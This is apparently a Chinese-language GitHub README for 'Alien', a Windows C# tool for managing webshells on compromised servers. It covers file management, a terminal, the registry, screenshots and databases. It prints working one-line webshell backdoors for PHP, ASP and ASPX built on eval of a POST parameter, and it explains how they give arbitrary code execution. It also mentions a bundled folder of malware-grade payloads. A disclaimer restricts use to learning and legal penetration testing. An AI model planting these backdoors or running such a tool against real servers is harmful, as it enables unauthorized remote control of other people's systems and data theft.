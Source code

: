 # Alien
English readme : [README_EN](https://github.com/malbuffer4pt/Alien/blob/main/README_en.md)  
Webshell 管理工具  

## Author
- [@ISSAC](https://www.github.com/malbuffer4pt)

# 免責聲明
工具只限用於學習用途，網站管理和合法滲透測試，不可用於非法用途。\
如非法使用則後果自負。

## 文檔
https://malbuffer4pt.github.io/Alien/

## 工具平台
Windows

## 語言
C# .NET Framework V4.8

## 功能
- File Manager (可顯示圖片, 可SearchFile)
- Virtual Terminal
- Database
- Registry
- Monitor
- Screenshot
- System Information

## 一句話木馬
一句話木馬是在滲透測試中用來控制伺服器的工具\
強大之處在於木馬本身體積小，不易發現\
以下是最簡單的一句話木馬

- PHP
```<?php @eval($_POST['password']);?>```
- ASP
```<%execute(request("password"))%>```
- ASPX
```<%@ Page Language="Jscript"%><%eval(Request.Item["password"])%>```
當然, Alien還可以使用asmx, ashx等等的Webshell。
- NodeJS & JSP
```https://github.com/malbuffer4pt/Alien/blob/main/shell.txt```

## 關於JSP webshell
目前只有比較原始的菜刀版本, 之後可能會加上蟻劍和冰蝎\
shell有進行更改, 新增了可以顯示圖片的功能

## 關於NodeJS webshell
由於NodeJS特性, 原理跟一般php asp aspx等動態語言的shell不同, \
NodeJS目的重在管理而非滲透

## 伺服器
Windows Linux Unix MacOS

## Database管理
- MySQL : PHP
- Access : https://github.com/malbuffer4pt/DBer
- SQL Server : ASP ASPX ASMX ASHX

## 原理
以PHP為例子, eval()可以把string以PHP Code去執行，\
如果eval()中帶有可控變數，那麼就可以執行任意程式碼。\
如eval($_POST['a']);\
HTTP POST a=phpinfo(); 就可以執行phpinfo();

## 注意!
- 工具Payloads資料夾內有符合惡意程式的Payload, 可能會被防毒刪除
- 目前只有刪減版，但部份程式碼沒有刪除，Disassemble應該會有奇怪但無法使用的東西

## 圖片
![5](https://github.com/malbuffer4pt/Alien/blob/main/5.png)
![1](https://github.com/malbuffer4pt/Alien/blob/main/1.png)
![6](https://github.com/malbuffer4pt/Alien/blob/main/6.png)
![2](https://github.com/malbuffer4pt/Alien/blob/main/2.png)
![3](https://github.com/malbuffer4pt/Alien/blob/main/3.png)
![4](https://github.com/malbuffer4pt/Alien/blob/main/4.png)
![7](https://github.com/malbuffer4pt/Alien/blob/main/7.png)
![8](https://github.com/malbuffer4pt/Alien/blob/main/8.png)
![9](https://github.com/malbuffer4pt/Alien/blob/main/9.png)
![10](https://github.com/malbuffer4pt/Alien/blob/main/10.png)
![11](https://github.com/malbuffer4pt/Alien/blob/main/11.png)
![12](https://github.com/malbuffer4pt/Alien/blob/main/12.png)

## 致謝
研究webshell的各位前輩
